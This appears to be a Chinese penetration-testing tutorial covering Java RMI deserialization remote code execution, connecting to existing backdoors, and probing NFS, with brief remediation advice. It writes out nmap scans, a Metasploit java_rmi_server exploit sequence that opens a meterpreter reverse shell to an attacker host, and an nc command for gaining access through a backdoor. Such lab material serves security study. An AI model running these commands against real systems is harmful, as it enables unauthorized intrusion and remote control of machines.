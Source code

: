 

### 反序列化远程命令执行漏洞

- Java rmi介绍

  - Java RMI指的是远程方法调用（Remote     Method Invocation）。它是一种机制，能够让在某个Java虚拟机上的对象调用另一个Java虚拟机中的对象上的方法。
  - RMI是J2SE的一部分，能够让程序员开发出基于JAVA的分布式应用。一个RMI对象是一个远程JAVA对象，可以从另一个JAVA虚拟机上（甚至跨过网络）调用它的方法，可以像调用本地JAVA对象的方法一样调用远程对象的方法，使分布在不同的JVM中的对象的外表和行为都像本地对象一样。
  - 对于任何一个以对象为参数的RMI接口，你都可以发一个自己构建的对象，迫使服务器端将这个对象按任何一个存在于class     path中的可序列化类来反序列化。
  - RMI的传输100%基于反序列化。
  - **默认端口1099**

- 探测目标rmi

  - 使用`nmap -sV -p 1099 IP地址`探测目标的版本信息。

- rmi远程命令执行利用

  - 使用Metasploit 对rmi RCE漏洞利用。

    ```
    use exploit/multi/misc/java_rmi_server 
    set rhosts 192.168.43.235
    set lhost 192.168.43.80
    show payloads 
    set payloads java/meterpreter/reverse_tcp
    exploit 
    sessions -l
    sessions -i 1
    ```

- 防御修复

  1. 存在反序列化传输。【特别注意是否会执行系统命令】
  2. 存在有缺陷的第三方库如commons-collections，及时升级库。



### 后门连接

- 后门连接探测
  - 某些情况下，服务器可能已经存在某些后门。可以使用Nmap进行探测。`nmap -sV 192.168.43.235 -p 某些端口`
- nc连接后门获取权限
  - `nc 目标IP 端口号`连接后门程序



### NFS漏洞利用

- NFS介绍

  - NFS（Network File System）即网络文件系统，是FreeBSD支持的文件系统中的一种，它允许网络中的计算机之间通过TCP/IP网络共享资源。在NFS的应用中，本地NFS的客户端应用可以透明地读写位于远端NFS服务器上的文件，就像访问本地文件一样。**默认2049端口**

- 探测目标NFS

  - `nmap --script=nfs-* IP地址`

